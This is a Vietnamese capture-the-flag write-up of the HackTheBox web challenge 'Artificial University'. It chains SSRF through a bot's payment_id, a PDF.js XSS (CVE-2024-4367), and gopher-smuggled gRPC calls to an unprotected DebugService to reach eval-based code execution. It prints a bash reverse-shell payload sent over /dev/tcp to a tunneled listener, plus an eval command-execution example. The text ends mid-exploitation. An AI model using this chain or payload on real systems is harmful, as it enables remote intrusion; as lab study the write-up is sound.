# Artificial University (HTB)
---
# Table of contents:
- [I. Overview](#i-overview)
- [II. Source code analysis](#ii-source-code-analysis)
    - [A. Store](#a-store)
    - [B. gRPC Server](#b-grpc-server)
- [III. Essential knowledge](#iii-essential-knowledge)
    - [A. gRPC](#a-grpc)
    - [B. Gopher protocol](#b-gopher-protocol)
- [IV. Vulnerability Analysis](#iv-vulnerability-analysis)
    - [1. SSRF](#1-server-side-request-forgery)
    - [2. CVE-2024-4367](#2-cve-2024-4367)
    - [3. Sensitive endpoint exposure](#3-sensitive-endpoint-exposure)
    - [4. Dangerous function misuse](#4-dangerous-function-misuse)
- [V. Exploitation](#v-exploitation)
- [VI. Post-analysis discussion](#vi-post-analysis-discussion)
---
## I. Overview
- Ứng dụng cho phép login, register account, checkout, order đối với user.
- Đối với admin, có thể xem danh sách tài khoản, danh sách mặt hàng, danh sách order, nhận mặt hàng mới, lưu mặc hàng mới, xem các mặt hàng mới đã lưu. Ngoài ra admin có chức năng xem health-check và xem invoice của order dưới dạng pdf.

## II. Source code analysis
Về cơ bản ứng dụng có codebase khá lớn cùng nhiều utility đi kèm nên mình chỉ phân tích vào các phần trọng điểm.

### A. Store

```
.
├── / [GET]
├── /login [GET,POST]                       POST: email, password
├── /register [GET,POST]                    POST: email, password
├── /logout [GET]                           
├── /product/<product_id> [GET]     
├── /subs [GET]
├── /checkout [GET]                         GET: product_id, price, title, user_id, email
│   └── /success [GET]                      GET: order_id, payment_id
│
└── /admin [GET]
    ├── /users [GET]
    ├── /products [GET]
    ├── /orders [GET]
    ├── /view-pdf [GET]                     GET: url
    ├── /api-health [GET,POST]              POST: url
    ├── /product-stream [GET]
    ├── /save-product [GET]
    └── /saved-products [GET]
```

- `/login`, `/register`, `/logout` bình thường không có gì. Khi đăng nhập thành công, session sẽ lưu:
```
session["loggedin"] = True
session["user_id"] = user_data.id
session["email"] = email
session["role"] = user_data.role
```

- `/product/<product_id>`: hiện thông tin về một sản phẩm: title, price. Cho phép **checkout** từ trang này.
- `/subs`: hiện ra thông tin về các order của mình
- `/checkout`: **order_id** khi **create_order** tự động tăng. Bắt đầu từ 1.



Các hàm trong `/checkout`:
1) `generate_payment_link`:  **amt** là **price** được truyền vào


2) `create_order`: nếu như **product_id** không có thì luôn lưu **order** với **product_id** là 1



3) `generate_invoice`: Nhận đầu vào là **order_id**. Sử dụng hàm hỗ trợ bên ngoài để viết pdf.




- `/checkout/success`: Sau khi lấy thông tin và kiểm tra thông tin để lưu sản phẩm đã được thanh toán thì gọi một con bot với tài khoản admin và truyền vào tham số `payment_id` lấy từ **params**



bot 



#### Admin Functions

Truy cập vào endpoints của admin yêu cầu session được lưu dưới role là admin.

Vào các endpoints `/admin`, `/admin/users`, `/admin/products` và `/admin/orders` trả về các thông tin cơ bản, lần lượt theo thứ tự là: dashboard các chức năng của admin, thông tin về all users - products - order được tạo.

- `/admin/view-pdf`:



- `/admin/api-health`:



Hàm `get_url_status_code(url)`:



Các endpoints tiếp theo sẽ sử dụng giao thức `gRPC` (**Remote Procedure Call**) để giao tiếp với một gRPC server đang nghe ở `127.0.0.1:50051` (nó là gì thì mình sẽ note ở các mục sau). Client giao tiếp bằng cách sử dụng các grpc-helper functions.


- `/admin/product-stream`: gọi hàm `get_new_products()` để lấy sản phẩm từ server và in ra màn hình



- `/admin/save-product`: gọi hàm `mark_product_saved()` để lưu sản phẩm được lấy từ query



- `/admin/saved-products`: gọi hàm `get_saved_products()` để lấy các sản phẩm đã được lưu



### B. gRPC Server

Trong source code phần gRPC server có một file `product.proto` quy định API giữa client và server và các service mà server có:

```
syntax = "proto3";

package product;

service ProductService {
    rpc GetNewProducts(Empty) returns (Products);
    rpc MarkProductSaved(Product) returns (Empty);
    rpc GetSavedProducts(Empty) returns (Products);
    rpc DebugService(MergeRequest) returns (Empty);
}

message Empty {}

message Product {
    string id = 1;
    string name = 2;
    string description = 3;
    double price = 4;
}

message Products {
    repeated Product products = 1;
}

message MergeRequest {
    map<string, InputValue> input = 1;
}

message InputValue {
    string string_value = 1;
    double double_value = 2;
    InputValue nested_value = 3;
}
```

Ta thấy rằng trong đây có thêm một service `DebugService` mà không được định nghĩa cách gọi ở phía client.

- `GetNewProducts`: Không nhận input, tạo số lượng sản phẩm bất kì với một hepler function. Tạo công thức cho `price` nếu có



- `MarkProductSaved`: Nhận input là `Product` là một dict: id, name, description, price



- `GetSavedProducts`: Không nhận input, chỉ trả về **saved_product**



- `DebugService`: Nhận input là một `MergeRequest`dictionary với key là string, value là một nested-dictionary `InputValue`



## III. Essential knowledge

### A. gRPC

#### 1. Simple explanation: What is gRPC?

Với **REST API truyền thống**: Client và Server nói chuyện với nhau bằng văn bản (thường là JSON) qua giao thức HTTP/1.1. Bạn gọi tới một đường dẫn (URL) như `GET /api/users/1`.

Với **gRPC**: Đây là một framework do Google phát triển (chữ "g" thực ra không cố định là Google, nhưng nguồn gốc từ đó). Khác với REST, ***gRPC cho phép Client gọi thẳng một hàm (function)*** nằm trên Server cứ như thể hàm đó đang nằm trên chính máy Client vậy (ví dụ: `GetUser(1)`).  Nó truyền tải dữ liệu dưới dạng nhị phân (`binary`) và chạy trên nền `HTTP/2`.

#### 2. Core components of gRPC

- **A. Protocol Buffers (Protobuf)**

Nếu REST dùng JSON để gói dữ liệu, thì gRPC dùng **Protobuf**.

**Protobuf** định nghĩa cấu trúc dữ liệu trong các file có đuôi ***.proto***. Dựa vào file này, code (như Python, Go, Java) sẽ tự động được sinh ra.

Điểm mấu chốt: Dữ liệu gửi đi không phải là text (chữ đọc được) mà được nén thành chuỗi nhị phân cực kỳ nhỏ gọn. Đó là lý do khi bro chặn gói tin gRPC bằng Burp Suite mặc định, dữ liệu trông như bị mã hóa hoặc hiển thị các ký tự loằng ngoằng. Để đọc được, ta phải có file .proto để "dịch" (decode) ngược lại.

- **B. HTTP/2**

gRPC bắt buộc chạy trên `HTTP/2`. Giao thức này cho phép nhiều request/response chạy song song trên cùng một kết nối (multiplexing) và hỗ trợ truyền dữ liệu theo luồng (streaming).

Góc nhìn CTF: Do dùng HTTP/2, một số công cụ proxy cũ hoặc không cấu hình đúng sẽ không thể chặn/bắt được traffic của gRPC.

- **C. Metadata (Thay cho HTTP Headers)**

Trong gRPC không có khái niệm `HTTP Headers` (như **Authorization**, **Cookie**) truyền thống để xác thực. Thay vào đó, nó dùng `Metadata`.

Góc nhìn CTF: Nếu challenge liên quan đến **Bypass Authentication, IDOR, hay JWT**, mục tiêu thường là tìm và can thiệp vào phần Metadata này.

#### 3. Exploitation Viewpoint

- **Server Reflection**

1) Trong REST, nếu không có Swagger/Postman, phải mò mẫm đoán các endpoint.

2) Trong gRPC, có một tính năng gọi là `Server Reflection`. Nếu lập trình viên quên tắt nó ở môi trường **Production**, có thể dùng tool để hỏi server: Các hàm, cấu trúc dữ liệu đầu vào. Server sẽ trả về toàn bộ cấu trúc API như trong file `.proto`.

Dùng tool `grpcurl`

Lệnh: `grpcurl -plaintext <IP>:<PORT> list`

### B. Gopher Protocol

#### 1. What is Gopher Protocol (Giao thức Gopher)

Giao thức Gopher là một giao thức mạng hoạt động ở tầng Ứng dụng (Application Layer), được thiết kế vào đầu những năm 1990 để phân phối, tìm kiếm và truy xuất tài liệu qua Internet. Dù đã trở nên lỗi thời trong kiến trúc Web hiện đại, Gopher lại đóng vai trò đặc biệt nghiêm trọng trong an toàn thông tin, cụ thể là trong việc leo thang các lỗ hổng Server-Side Request Forgery (SSRF).

Đặc điểm kỹ thuật cốt lõi khiến Gopher trở thành công cụ đắc lực trong khai thác SSRF nằm ở cơ chế xử lý payload. Khi một thư viện mạng (ví dụ: `libcurl`) khởi tạo một yêu cầu HTTP thông thường, nó sẽ tự động bổ sung các HTTP Headers tiêu chuẩn (như `Host`, `User-Agent`, `Accept`). Ngược lại, khi tiếp nhận một định dạng URL kiểu `gopher://<IP>:<Port>/_<Payload>`, giao thức này sẽ hoạt động theo nguyên lý sau:

1) Bỏ qua toàn bộ các thao tác đóng gói Header hoặc Metadata.

2) Tiến hành giải mã (URL-decode) chuỗi Payload được cung cấp.

3) Truyền trực tiếp chuỗi dữ liệu đã giải mã dưới dạng một luồng TCP thô (Raw TCP Stream) đến địa chỉ và cổng đích.

Đặc tính không can thiệp vào dữ liệu (Data Agnosticism) này cho phép kẻ tấn công lợi dụng Gopher để "giả mạo" giao tiếp của bất kỳ giao thức nào chạy trên nền tảng TCP (như Redis, MySQL, SMTP, hoặc HTTP/2), miễn là payload được thiết kế (craft) tuân thủ đúng cấu trúc gói tin mà dịch vụ đích yêu cầu.

#### 2. Technical analysis: Gopher interaction with gRPC server mechanism

Để sử dụng Gopher làm cầu nối tương tác với một máy chủ gRPC nội bộ thông qua lỗ hổng SSRF, người khai thác phải nắm quyền kiểm soát hoàn toàn ***cấu trúc dữ liệu nhị phân của giao thức HTTP/2*** (nền tảng truyền tải của gRPC).

Quá trình này không thể thực hiện bằng các payload văn bản thuần túy (plain-text) mà đòi hỏi việc đóng gói thủ công (manual packet crafting) ở cấp độ byte. Chi tiết các bước xử lý kỹ thuật bao gồm:

- **Cấu trúc URL mặc định**: Cú pháp bắt buộc sẽ có dạng `gopher://<Target_IP>:<Port>/_<Raw_Bytes_Payload>`. Ký tự `_` ở đầu payload là quy ước bắt buộc của giao thức để bù trừ cho cấu trúc phân vùng mặc định của Gopher, dữ liệu thực tế được hệ thống đích tiếp nhận sẽ bắt đầu ngay sau ký tự này.

- **Đóng gói HTTP/2 Frames**: Toàn bộ luồng giao tiếp gRPC phải được thiết kế và chuyển đổi sang dạng chuỗi Hex (Hexadecimal) trước khi thực hiện URL-encode. Một payload hợp lệ truyền qua Gopher để tương tác với gRPC bắt buộc phải mô phỏng lại toàn trình quá trình bắt tay và truyền tải của `HTTP/2`, bao gồm:

    1) ***Connection Preface***: Chuỗi byte định danh bắt buộc để khởi tạo phiên `HTTP/2 (PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n)`.

    2) ***SETTINGS Frame***: Khung cấu hình tham số phiên kết nối.

    3) ***HEADERS Frame***: Chứa các Metadata của gRPC (như `:method: POST`, `:path: /<Service>/<Method>`, `content-type: application/grpc`). Phần này phải được nén bằng thuật toán `HPACK` theo tiêu chuẩn của `HTTP/2`.

    4) ***DATA Frame***: Chứa nội dung tham số đầu vào. Dữ liệu này phải được tuần tự hóa (serialize) theo chuẩn Protocol Buffers (Protobuf), đồng thời được nối kèm với các byte chỉ định kích thước (Length-Prefixed Message) của gRPC.

## IV. Vulnerability Analysis

Trong bài này, mọi thứ gần như đều không có bước validate. 

### 1. Server-side request forgery

Trong endpoint `/checkout`, product_id, title, email, price, user_id được truyền vào tùy ý nên có thể khai thác ở đây.

Trong endpoint `/checkout/success`, code kiểm tra xem **amt_paid** có lớn hơn **order.price** hay không. Với **amt_paid** luôn được **get_amount_paid** trả về 0 nên mình có thể checkout product ở `/product` với price là -1 để thỏa mãn điều kiện (cần bỏ phần **product_id** để flow nhảy vào đoạn code tạo order dựa trên input người dùng).

Tiếp theo, `bot_runner` được chạy với argument `payment_id` tùy ý người dùng gửi lên. Sau khi bot đăng nhập với tài khoản admin, nó truy cập link được dynamically generated với biến **payment_id**. 


**payment_id** không đi qua một lớp lọc nào, được gắn thẳng vào url, mình có thể truyền mã độc vào đây để `path traverse` url tới bất kì endpoint nào mong muốn với quyền admin. ==> Truy cập vào các endpoint admin với `GET request`.

### 2. CVE-2024-4367

Bot dùng browser firefox 125.0.1 `ARG FIREFOX_VERSION=125.0.1` (Dockerfile) có một CVE-2024-4367.
Lỗ hổng xảy ra khi một font được tải từ PDF, PDF.js tin rằng data sạch và tuân thủ format. 

Attacker đã tận dụng điều này để inject mã độc Javascript vào trong pdf. Nếu user dùng các bản browser chứa lỗ hổng thì khi mở pdf chứa mã độc, js code sẽ chạy 

==> Cross-site scripting (XSS)

### 3. Sensitive endpoint exposure

Server để lộ một hàm `DebugService` ở service `ProductService` không được sử dụng ở phía client. Tuy nhiên không có Middleware hay biện pháp ngăn chặn nào có thể gọi tới.

Ở trong endpoint `/admin/api-health` nhận `url` bất kì từ query và truy cập vào url thông qua curl


Mình có thể craft payload mang hình một request tới gRPC server qua giao thức Gopher rồi gửi bằng curl.

### 4. Dangerous function misuse

```python
def GenerateProduct(self):
		if hasattr(self, "price_formula"):
			price = eval(self.price_formula)
			product = product_pb2.Product(
				id=str(uuid.uuid4()),
				name=f"Product {random.randint(1, 100)}",
				description="A sample product",
				price=price
			)
			return product
```

Trong hàm `GenerateProduct` được gọi từ `GetNewProducts` sử dụng `eval`. Hàm này cho phép chạy string như là code bình thường (chỉ chạy **expression**, không chạy **statement**):

```python
# Dùng đúng
# Môi trường an toàn: Chuỗi tính toán do chương trình tự tạo ra hoặc đã được filter chặt chẽ
x = 10
bieu_thuc = "x * 5 + (20 / 4)"

# eval() sẽ đọc chuỗi trên, thay biến x bằng 10 và thực hiện phép tính
ket_qua = eval(bieu_thuc)

print(f"Kết quả là: {ket_qua}") 
# Output: Kết quả là: 55.0

# Dùng sai
ket_qua = eval("__import__('os').popen('id').read()")
```

Review source code không thấy attribute `price_formula` của class `ProductService` nhưng có thể set attribute của class thông qua hàm `UpdateService()`.

## V. Exploitation

```
                                        Luồng khai thác

1) Đăng ký tài khoản và order custom product với giá -1.
2) Gửi request ở /checkout/success và thao túng query payment_id để khai thác SSRF, điều hướng con bot truy cập vào /admin/view-pdf?url=<malicious pdf>
3) Trong file pdf được trả về có chứa mã độc Javascript, bot mở pdf sẽ chạy code trong file, dính XSS gửi POST request tới /admin/api-health với url ở body.
4) Ở /admin/api-health, code dùng curl với url nhận được từ request. Url là gopher protocol với phần payload phía sau.
5) gopher + payload được curl gửi tới gRPC server yêu cầu server chạy hàm DebugService với key và value sao cho trong phần UpdateService, class ProcductService có thêm thuộc tính price_formula với value là một lệnh gọi reverse shell.
6) Dùng /checkout/success để trick con bot gọi vào /admin/product-stream chạy lệnh reverse shell.
7) Nhận RCE từ listener.
```

### A. Các chuẩn bị payload và các thứ liên quan

#### 1. Thêm attribute price_formula cho ProductService

```product.proto
service ProductService {
    ...
    rpc DebugService(MergeRequest) returns (Empty);
}

message MergeRequest {
    map<string, InputValue> input = 1;
}

message InputValue {
    string string_value = 1;
    double double_value = 2;
    InputValue nested_value = 3;
}
```

```python
input_dict = {k: v.string_value for k, v in request.input.items()}
self.UpdateService(input_dict, self)
```

gRPC server yêu cầu `MergeRequest` gửi tới hàm `DebugService` phải là một dictionary với key là string có tên bất kì, value là một object `InputValue` có một attribute là `string_value` cái mà sẽ được lấy ra khi hàm tạo dict mới từ input.

```python
def UpdateService(self, source, destination):
    for key, value in source.items(): 
        if hasattr(destination, "__dict__") and key in destination.__dict__ and isinstance(value, dict): 
            self.UpdateService(value, destination.__dict__[key]) 
        elif hasattr(destination, "__dict__"): 
            destination.__dict__[key] = value 
        elif isinstance(destination, dict) and key in destination and isinstance(value, dict): 
            self.UpdateService(value, destination[key]) 
        else: 
            destination[key] = value
```

Hiểu đơn giản là hàm sẽ loop cho đến khi `key` không còn ở trong `__dict__` và `value` không có kiểu dữ liệu là `dict`. Cuối cùng lưu `ProductServer.key = value`

> Payload: <a id="target"></a>
```
{
"input": {
	"price_formula":{
		"string_value":"__import__('os').system('bash -c "bash -i >& /dev/tcp/<listener-ip>/<listener-port> 0>&1\"')"
		}
	}
}
```
Server sẽ duyệt input với `k` là `price_formula` và `v.string_value` là `lệnh gọi rev shell`

#### 2. Chuẩn bị payload dưới dạng bytes để gửi request tới gRPC server
Dựng một listener cho public IP: `ssh -p 443 -R0:localhost:8000 tcp@a.pinggy.io` trả về `tcp://utkef-59-153-238-66.run.pinggy-free.link:46305`

Như vậy ta có `listener-ip`: `utkef-59-153-238-66.run.pinggy-free.link` và `listner-port`: `46305`

Bởi vì gRPC giao tiếp bằng HTTP/2 bằng các binary frame, ta không thể tự craft request bằng test thuần như HTTP/1.1 được.

> Sử dụng `grpcurl` để gửi một request thật tới gRPC server. Dùng `Wireshark` để bắt gói tin request đó, lưu dưới dạng RAW (bytes)

